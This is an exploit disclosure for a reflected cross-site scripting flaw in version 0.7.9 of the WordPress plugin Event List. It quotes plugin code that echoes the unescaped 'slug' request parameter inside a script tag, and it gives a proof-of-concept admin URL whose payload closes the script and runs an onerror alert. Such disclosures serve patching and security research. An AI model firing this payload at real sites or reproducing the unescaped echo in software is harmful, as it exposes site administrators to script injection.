 
#### Exploit Title: WordPress Plugin Event List XSS vulnerability
#### Exploit Author: ning1022
#### Software Link: https://wordpress.org/plugins/event-list/
#### Version: 0.7.9



Vulnerability code

```

event-list/includes/admin-categories.php

$is_disabled = '1' == $this->options->get('el_sync_cats');
require_once(EL_PATH.'admin/includes/category_table.php');
$category_table = new EL_Category_Table($is_disabled);
$category_table->prepare_items();


```



```
/event-list/admin/includes/category_table.php

	private function process_bulk_action() {
		if(!$this->is_disabled) {
			//Detect when a bulk action is being triggered...
			if( 'delete_bulk' === $this->current_action() ) {
				// Show confirmation window before deleting
				echo '<script language="JavaScript">eventlist_deleteCategory ("'.implode( ', ', $_GET['slug'] ).'");</script>';
			}
		}
	}
	
	
```


Once user turn off the switch.(Sync Categories)

![http://ofjyzpv9h.bkt.clouddn.com/cve1-1.png](http://ofjyzpv9h.bkt.clouddn.com/cve1-1.png)


POC:
```
http://[wordpress_site]/wp-admin/admin.php?page=el_admin_categories&action=delete_bulk&slug[0]=1&slug[1]=2</script><img+src=1+onerror=alert(1)>
```



![http://ofjyzpv9h.bkt.clouddn.com/cve1-2.png](http://ofjyzpv9h.bkt.clouddn.com/cve1-2.png)